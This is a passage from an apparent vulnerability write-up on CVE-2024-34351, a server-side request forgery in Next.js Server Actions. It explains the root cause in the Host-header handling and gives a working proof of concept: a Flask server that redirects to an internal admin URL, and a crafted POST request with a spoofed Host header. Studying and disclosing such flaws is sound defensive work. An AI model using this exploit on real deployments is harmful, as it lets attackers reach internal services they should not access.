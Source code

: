 ```tsx
      // we couldn't stream the redirect response, so we'll just do a normal redirect
      console.error(`failed to get redirect response`, err)
    }
...
```

Looking at the code logic, we can see that the `Host` header is referenced with `const host = originalHost.value` to generate the `fetchUrl`. A HEAD request is then sent to that URL, and if the response `content-type` is `RSC_CONTENT_TYPE_HEADER` (`text/x-component`), a GET request is sent.

```tsx
export const RSC_CONTENT_TYPE_HEADER = "text/x-component" as const;
```

It can also be seen that after the GET request is sent, the response body is referenced to generate the rendering result. This logic is what led to the vulnerability.

### Part3. PoC for CVE-2024-34351

As can be seen from the root cause, the following conditions must be met and known in order to demonstrate the vulnerability:

- Whether `Server Actions` are used and the Action ID (a value visible on the client side)
- A custom server that returns `text/x-component` as the `content-type` in response to a `HEAD` request and redirects the requester to an arbitrary URL upon a `GET` request

Therefore, to reproduce the vulnerability, a server like the one below must be running:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://127.0.0.1/admin') # Target URL

```

You can reproduce the vulnerability by locating the Action ID exposed on the client side and sending a request to the server as shown below.

```
POST / HTTP/1.1
Host: <Attaker Server URL URL>/
Content-Length: 2
Next-Action: <Action ID>

[]
```

This will allow you to demonstrate the vulnerability.
